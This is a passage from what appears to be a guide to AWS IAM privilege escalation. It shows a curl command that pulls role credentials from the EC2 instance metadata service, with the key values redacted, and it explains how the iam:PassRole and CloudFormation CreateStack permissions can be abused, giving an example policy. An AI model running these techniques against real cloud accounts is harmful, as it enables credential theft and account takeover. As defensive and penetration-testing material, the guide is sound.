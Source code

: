 ```bash
[glue@ip-172-32-68-141 ~]$ curl http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy
```

```json
{

    "AccessKeyId":"[REDACTED]",
    "SecretAccessKey":"[REDACTED]",
    "Token":"[REDACTED]",
    "Expiration":"2019-09-09T22:36:23.898Z"
}
```

The attacker now has full administrator permissions to the AWS environment.

## 20 - iam:PassRole, cloudformation:CreateStack, and cloudformation:DescribeStacks

### Description
Users with the iam:PassRole, cloudformation:CreateStack, and cloudformation:DescribeStacks permissions can create a new CloudFormation stack which in turn creates AWS resources on the user's behalf. This can be used to create resources with permissions in excess of what the user currently has.

### Requirements
The AWS account needs to contain a role that can be assumed by CloudFormation, and which has adequate permissions to escalate privileges. There is no defined list of what these permissions are because many escalation paths are possible through CloudFormation.
Note: There is not a specific privilege escalation path when using CloudFormation. Since the attacker can instruct CloudFormation to spin up AWS resources, there are various ways to go about this. For instance, creating a new user with admin permissions as used in the example below. Another options is to spin up an EC2 instance, pass the admin role to it, and then SSH into the instance, as described in one of the other privilege escalation techniques. Therefore, specific investigation is required of the roles that a user may pass to CloudFormation to see what privilege escalation paths might be possible.

### Example
In this example, the attacker is part of a single group. The group provides only the iam:PassRole, cloudformation:CreateStack, and cloudformation:DescribeStacks permissions:

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "VisualEditor0",
      "Effect": "Allow",
      "Action": [
        "iam:PassRole",
        "cloudformation:CreateStack",
        "cloudformation:DescribeStacks"
      ],
      "Resource": [
        "arn:aws:cloudformation:*:*:stack/*/*",
        "arn:aws:iam::*:role/*"
      ]
    }
  ]
}
```
